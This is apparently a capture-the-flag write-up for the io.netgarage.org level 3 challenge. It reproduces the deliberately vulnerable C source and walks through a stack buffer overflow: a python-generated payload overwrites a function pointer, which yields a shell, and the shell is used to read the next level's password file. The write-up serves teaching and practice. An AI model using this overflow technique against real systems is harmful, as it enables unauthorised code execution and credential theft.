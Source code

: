 # io.netgarage.org: level3
We start with the usual, ssh to the challenge server, login with the password 
we got from the previous challenge, `cd` to /levels and run the challenge 
binary:
```
level3@io:/levels$ ./level03
level3@io:/levels$
```
So the binary has no output, let's take a look at the provided source:
```C
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```
The program requires 2 arguments, one being a command line argument. The
command line argument also needs to greater than 4 characters in length.
Let's try running it with some arbitrary values:
```
level3@io:/levels$ ./level03 aaaa
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$
```
So we need a way to get to the function at `0x8048474`. Examining the source
shows that we go to the function at `functionpointer()`, which is set to the
address of `bad()` at the start. The `bad()` function prints "I'm so sorry, 
you're at 0x80484a4 and you want to be at 0x8048474", where `0x8048474` is the 
address of the `good()` function. 

We see that the command line argument we give is `memcpy`-ed (with no size 
checks!) into `buffer`, which is declared as `char buffer[50];`. We can easily
overflow `buffer` with a trivial buffer overflow. After trial and erroring with
different lengths, we see that 76 characters is where the overflow starts:
```
level3@io:/levels$ ./level03 `python -c "print('A' * 78)"`
This is exciting we're going to 0x8044141
Segmentation fault
level3@io:/levels$ ./level03 `python -c "print('A' * 76)"`
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$
```
We add the last 2 bytes of the address of `good()` after the 76 A's (junk 
bytes):
```
level3@io:/levels$ ./level03 `python -c "print('A' * 76 + '\x74\x84')"`
This is exciting we're going to 0x8048474
Win.
sh-4.3$
```
And we now have a shell! We can now read the pass from `/home/level4/.pass`:
```
sh-4.3$ cat /home/level4/.pass
<REDACTED>
```
And so, level03 is solved.

Happy Hacking!

~MarcoSi
